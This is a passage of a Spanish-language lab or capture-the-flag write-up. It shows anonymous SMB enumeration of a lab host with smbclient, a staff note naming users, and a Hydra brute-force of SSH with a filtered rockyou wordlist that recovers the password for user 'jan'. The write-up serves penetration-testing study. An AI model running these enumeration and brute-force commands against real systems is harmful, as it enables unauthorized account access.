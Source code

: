 ### **Archivos Recuperados**
```
┌──(kali㉿kali)-[~]
└─$ smbclient //10.10.30.13/Anonymous -p 445 -U guest

Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 19 13:31:20 2018
  ..                                  D        0  Thu Apr 19 13:13:06 2018
  staff.txt                           N      173  Thu Apr 19 13:29:55 2018

                14318640 blocks of size 1024. 11073416 blocks available
smb: \> get staff.txt
getting file \staff.txt of size 173 as staff.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
```

Se encontró un archivo en la carpeta "Anonymous":

**Archivo:** `staff.txt`
```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

**Posible explotación:**
- "Kay" parece ser un usuario con permisos administrativos que gestiona SMB.
- "Jan" podría ser un usuario del sistema con archivos o credenciales mal gestionadas.
- La nota sugiere que en el pasado se subieron archivos no autorizados, lo que indica la posibilidad de encontrar archivos sensibles o credenciales en esta compartición.

---

## **5. Ataque de Fuerza Bruta a SSH**

Se realizó un ataque de fuerza bruta con Hydra contra el servicio SSH, resultando en credenciales válidas:
```
grep -E '^.{7}$' /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt > xato-7.txt

hydra -l jan -P xato-7.txt ssh://10.10.30.13 -t 4 
```

| **Usuario** | **Contraseña Encontrada** |
|------------|----------------------|
| jan | armando |

**Posible explotación:**
- El usuario "jan" tiene una contraseña débil que pudo ser descubierta mediante ataque de fuerza bruta.
- Esto permite acceso al sistema vía SSH, lo que puede facilitar una escalación de privilegios o movimientos laterales dentro de la red.

---